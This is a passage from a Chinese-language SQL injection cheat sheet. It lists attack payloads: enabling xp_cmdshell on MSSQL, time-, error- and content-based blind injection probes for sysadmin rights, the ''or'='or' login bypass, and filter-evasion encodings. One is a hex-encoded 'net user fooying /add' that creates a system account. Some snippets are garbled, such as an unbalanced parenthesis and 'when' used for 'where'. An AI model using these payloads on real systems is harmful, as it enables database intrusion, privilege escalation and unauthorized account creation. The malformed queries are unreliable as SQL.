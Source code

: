 exec master..sp_addextendedproc 'xp_cmdshell', 'xplog70.dll'

 

基于时间（MySQL）

select benchmark(1000000),sha1('fooying')); 

select sleep(5); (5.0.12 版本以上)

### **基于错误**

根据指定位值的不同来触发不同的错误响应并提取位值

基于错误

/is_srvrolemember('sysadmin')

/case when (system_user = 'sa') then 1 else 0 end

### **基于内容**

基于页面返回的不同 HTML 进行相关的判断

基于内容

%2B case when (system_user = 'sa') then 1 else 0 end

//%2B相当于+

## **其他SQL注入利用手法**

### **万能密码**

'or'= 'or'

sql = "select  * from users when username='"& name & "'and passwd='"&password & "'"

sql = "select  * from users when username='' or'='or" and passwd='admin'

假 or 真 or 假 and 假=假 or 真 or （假 and假）=假or真or假=（假or真）or假=真or假=真

 

### **字符转换与编码的处理**

Declare 与 OX6e 编码

二次编码

/**/替换空格

 

Declare 与 OX6e 编码

16进制编码

0x6e6574207573657220666f6f79696e67202f616464

declare @a  sysname
